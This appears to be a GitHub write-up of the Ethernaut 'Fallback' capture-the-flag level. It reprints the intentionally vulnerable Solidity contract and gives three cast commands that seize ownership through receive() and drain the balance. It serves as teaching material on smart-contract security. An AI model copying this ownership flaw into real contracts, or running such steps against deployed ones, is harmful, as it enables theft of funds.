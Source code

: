 ## Fallback Level Outline

**Difficulty : 1/10**

You will beat this level if:
1. you claim ownership of the contract
2. you reduce its balance to 0

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution

To become the contract owner, we first need to contribute some ETH and then call the fallback function.

### Walkthrough
##### 1. Contributing some eth by calling the "contribute()" function
```console
cast send $LEVEL_ADDRESS "contribute()" --value 0.0001ether --private-key=$PRIVATE_KEY
```

##### 2. Trigger the fallback function **receive()** by sending an eth transaction with an empty data field
```console
cast send $LEVEL_ADDRESS --value 0.0001ether --private-key $PRIVATE_KEY
```

##### 3. Draining the contract
```console
cast send $LEVEL_ADDRESS "withdraw()" --private-key $PRIVATE_KEY
```
## Further Reading

```
    Ether is sent to contract?
                |
        is msg.data empty?
                / \
               /   \
             yes    no  
             /       \    
        receive()    fallback()
         exist?                      
        /     \
       yes     no          
      /         \
  receive()     fallback()
```

--

##### [:arrow_left: Back To Main Menu](../README.md)
